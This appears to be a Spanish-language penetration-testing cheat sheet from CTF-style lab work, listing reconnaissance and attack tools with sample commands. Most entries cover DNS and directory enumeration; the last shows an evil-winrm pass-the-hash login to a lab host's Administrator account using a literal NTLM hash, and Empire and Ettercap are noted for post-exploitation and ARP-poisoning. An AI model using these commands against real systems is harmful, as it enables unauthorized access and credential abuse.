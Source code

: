 ### Dig 
Obtiene información de dns (puerto 53) para un dominio particular 
```bash
dig windcorp.thm any @10.10.78.247 
```

### Dirb 
enumera urls disponibles de un dominio, por medio de probar las carpetas más comunes. 

```bash
dirb http://<sitio>/<path>;  dirb http://192.168.1.103 -X .php 
```

### dmitry
para obtención de información 

```bash
dmitry -s -n <host> 
```

### DNSenum 
Enumera información de los servidores DNS 

### DNSMap
Obtiene información de los DNS 

### Dnsmasq
 

### Empire
Agente de post-explotación de PowerShell puro basado en comunicaciones criptográficas seguras y una arquitectura flexible. 

### Enum4linux 
Enumerador de usuarios y carpetas compatidas
<https://highon.coffee/blog/enum4linux-cheat-sheet/ >

### Ettercap 
para arpoisoning / MITM1 


### Exiftool 
extrae y modifica metadatos 

### Evil-winrm  
explota pass the hash 
```bash
sudo gem install evil-winrm 
evil-winrm -i 10.10.136.125 -H e4876a80a723612986d7609aa5ebc12b --user Administrator 
```
Crea una shell directamente en el equipo windows. 
